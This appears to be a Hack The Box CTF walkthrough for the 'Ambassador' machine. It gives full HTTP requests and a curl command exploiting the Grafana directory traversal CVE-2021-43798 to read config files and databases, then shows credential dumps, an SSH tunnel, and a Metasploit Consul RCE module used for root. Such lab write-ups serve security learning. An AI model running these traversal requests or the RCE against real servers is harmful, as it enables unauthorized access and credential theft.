 ```yaml
---
layout: post
title: Ambassador
published: true
category: CTF
system: linux
walkthrough-type: htb
source: https://app.hackthebox.com/machines/
Description: break into a linux devops box exploiting LFI through an out of date analytics web app. Take advantage of the devops git to find a way to the root flag. 
tags: grafana, curl, devops, sqlite, mysql, linux, cve-2021-43798, consul, git
---
```


- `sudo nmap -p- -T4 10.10.11.183 -vvvv`

Ports open: 22,80,3000,3006

- `sudo nmap -p22,80,3000,3306 -sC -sV -O 10.10.11.183 -vvvv`

## # Port 80

Nothing here I ran feroxbuster with medium raft directories but we do get a note

We get a note

- Use the **developer** account to SSH, DevOps will give you the password.

## # Port 3000 

Here we find a Grafana instance. Grafana is an open-source monitoring playform that allows you to alert and querty and visualize different data sourced, like databases. The key must be here? running feroxbuster yeild a shitload of nothing, checking the source of the grafana page and searching for "version" we find the Grafana version 8.2.0.

- `https://www.exploit-db.com/exploits/50581` - CVE-2021-43798 - Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files. The exploit works by being allowed to use the plugins in the api then directory traversal to read whatever you are allowed to ready on the system.

This script will use the exploit by doing all the work allowing us to view files use we can use this to read the grafana config files located at `/etc/grafana/grafana.ini` then use those credentials to login to grafana. 

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

We can also exploit this manually be sending a burpsuite request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

Okay so the exploit above doesnt allow us to really do anything other than read the files...Can we use a curl request to download the grafana.db On macOS and Linux, the default location is `/var/lib/grafana/grafana.db`.

- Burpsuite repeater request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

This pulls up a database

we can download this with curl

- `curl --path-as-is http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

And open in `sqlite3`

we can use `.tables` to see all tables then `SELECT * FROM user;` where we can see admin credentials.

1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2023-01-09 08:20:50|0

`dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069`

I thought this went soemwhere but after a ahwile of nothing went back in and checked the data_source table. I really, really, should have looked at all of the tables.

`2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-08 22:39:14|0|{}|1|uKewFgM4z`

- `mysql -u grafana -h ambassador.htb -p`

```
SHOW DATABASES;
SHOW tables;
SELECT * FROM USERS;
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

All of the other databases we dont have access to.

- `echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d` gives us `anEnglishManInNewYork027468`

and we are into the system!

# Privilege Escalation 


r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig
drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

we find some git files here! this being a devops server probably the way to our flag

notice there is some stuff happening inside of /opt/ specifically a django server.

running `netstat -tulp` we can see there is some addesses that we are only able to access on localhost. in order to access these we need to setup a port-forward and can do this with via ssh.

```
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -         
```

the consul service is only available on 8500 remotely

- `ssh -L 8500:localhost:8500 developer@ambassador.htb`

After creating a tunnel and checking out the 830x ports and not getting anywhere, I think his more to do with the git located here thought. So going to look into the git.

- `git log` shows git commit hisotry
- `git show` check the git commits in the history

checking the git commits so come accross a token of some sort `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55` we find `consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWO`

checking metasploit there are some RCEs `multi/misc/consul_service_exec` 

using this exploit its pretty easy to get root with the ACL token rhosts set to localhost (because we forwarded the port) and the just the LHOST and LPORT.

cd to root for the last flag.
